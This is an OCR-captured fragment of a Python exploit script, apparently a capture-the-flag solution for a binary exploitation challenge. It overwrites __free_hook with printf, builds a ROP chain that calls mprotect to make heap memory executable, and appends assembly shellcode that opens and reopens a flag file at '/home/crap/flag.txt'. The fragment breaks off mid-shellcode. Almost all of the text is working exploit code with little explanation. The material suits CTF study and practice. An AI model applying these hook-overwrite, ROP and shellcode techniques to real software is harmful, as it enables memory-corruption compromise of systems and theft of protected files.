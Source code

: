```python
# 0x7f7a73e74ba5

sla('> ','2')
sla('addr/value: ','%s %s'%(hex(free_hook),hex(printf)))

buf = bss-0x1260
info_addr('buf',buf)
heap = bss-0x32f0
# open('/flag',0,0x100)
# ropchain = p64(prdi) + p64(buf+0x108) + p64(prsi) + p64(0) + p64(prdx) + p64(0x100) + p64(prax) + p64(2) + p64(syscall)
# mprotect(buf,0x1000,7)
# ropchain += p64(main)
ropchain = p64(prdi) + p64(heap) + p64(prsi) + p64(0x10000) + p64(prdx) + p64(0x7) + p64(mprotect)
ropchain += p64(buf+0x40+8)
ropchain += asm('''
L1:
        /* open(file='/home/crap/flag.txt', oflag=0, mode=256) */\n
        /* push '/home/crap/flag.txt\x00' */\n
        push 0x1010101 ^ 0x747874\n
        xor dword ptr [rsp], 0x1010101\n
        mov rax, 0x2e67616c662f7061\n
        push rax\n
        mov rax, 0x72632f656d6f682f\n
        push rax\n
        mov rdi, rsp\n
        xor edx, edx\n
        mov dh, 0x100 >> 8\n
        xor esi, esi /* 0 */\n
        /* call open() */\n
        push SYS_open /* 2 */\n
        pop rax\n
        syscall\n

        pop rcx\n /* stack balance */
        pop rcx\n /* stack balance */
        pop rcx\n /* stack balance */
        cmp eax,0\n
        jns L1\n

        /* close(fd=0) */\n
        xor edi, edi /* 0 */\n
        /* call close() */\n
        push SYS_close /* 3 */\n
        pop rax\n
        syscall\n

        /* open(file='/home/crap/flag.txt', oflag=0, mode=256) */\n
        /* push '/home/crap/flag.txt\x00' */\n
        push 0x1010101 ^ 0x747874\n
        xor dword ptr [rsp], 0x1010101\n
        mov rax, 0x2e67616c662f7061\n
        push rax\n
        mov rax, 0x72632f656d6f682f\n
        push rax\n
        mov rdi, rsp\n
        xor edx, edx\n
        mov dh, 0x100 >> 8\n
        xor esi, esi /* 0 */\n
        /* call open() */\n
        push SYS_open /* 2 */\n
        pop rax\n
        syscall\n
```